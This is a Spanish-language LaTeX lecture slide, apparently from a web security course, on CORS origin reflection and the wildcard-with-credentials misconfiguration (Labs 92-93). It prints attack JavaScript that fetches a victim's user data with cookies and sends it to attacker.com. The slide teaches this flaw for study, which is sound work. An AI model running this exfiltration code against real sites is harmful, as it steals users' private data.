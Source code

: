 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{CORS --- Reflexión del Origen (Labs 92-93)}
\small
  \begin{itemize}
  \item CORS
  \item Vulnerabilidad --- Reflexión del origen sin validación (Labs 92-93)
  \item El servidor toma el valor del header Origin de la petición y lo devuelve tal cual en ACAO.
  \item Resultado: cualquier origen puede leer la respuesta, incluidos datos sensibles.
  \item \textbf{Petición del atacante:}
  \item \cmd{Origin: https://attacker.com}
  \item \textbf{Respuesta del servidor vulnerable:}
  \item \cmd{Access-Control-Allow-Origin: https://attacker.com}
  \item \cmd{Access-Control-Allow-Credentials: true}
  \item Código del ataque (Lab 92)
  \item \cmd{fetch('https://victim.com/api/userdata', \{}
  \item \cmd{credentials: 'include'}
  \item \cmd{\}).then(r =\textgreater{} r.json()).then(data =\textgreater{} \{}
  \item \cmd{fetch('https://attacker.com/log?d=' + JSON.stringify(data));}
  \item \cmd{\});}
  \item $\rightarrow$ La víctima ejecuta este JS (via XSS o página controlada por atacante).
  \item $\rightarrow$ credentials:include envía las cookies $\rightarrow$ respuesta incluye datos privados.
  \item Lab 93 --- ACAO con wildcard y credenciales
  \item Access-Control-Allow-Origin: * con Allow-Credentials: true $\rightarrow$ combinación inválida
  \item $\rightarrow$ Los navegadores rechazan esta combinación, pero algunos servidores la configuran mal.
  \item Un servidor que refleja el Origin es equivalente a ACAO: * para el atacante.
  \end{itemize}
\end{frame}
\end{document}
